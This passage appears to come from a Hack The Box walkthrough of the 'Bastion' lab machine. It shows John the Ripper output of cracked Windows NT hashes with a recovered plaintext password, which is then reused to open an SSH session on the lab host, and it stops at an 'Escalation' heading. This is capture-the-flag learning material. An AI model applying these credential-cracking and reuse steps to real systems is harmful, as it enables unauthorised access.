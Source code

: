``` bash
                                                                                                         
┌──(root💀bradman)-[/home/brad/HTB/Bastion]
└─# sudo john --show --format=NT hash.txt
Administrator::500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest::501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:bureaulampje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::

3 password hashes cracked, 0 left
```
 
Okay! We got the password for L4mpje (L4mpje:bureaulampje).... Let's see if we can get a SSH shell with these creds.

``` bash
┌──(root💀bradman)-[/home/brad/HTB/Bastion]
└─# ssh L4mpje@10.10.10.134
L4mpje@10.10.10.134's password: 

Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

l4mpje@BASTION C:\Users\L4mpje>whoami
bastion\l4mpje

l4mpje@BASTION C:\Users\L4mpje>ipconfig 
Windows IP 

Configuration

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :                         
   IPv6 Address. . . . . . . . . . . : dead:beef::6590:510d:8f1e:829e
   Link-local IPv6 Address . . . . . : fe80::6590:510d:8f1e:829e%4
   IPv4 Address. . . . . . . . . . . : 10.10.10.134
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:c9be%4
                                       10.10.10.2

Tunnel adapter isatap.{8253841C-588D-4E94-B23A-993BB2E4B4D9}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :

l4mpje@BASTION C:\Users\L4mpje>    

```

Ooooh Snap! We're in!!!

<br>

# Escalation
---
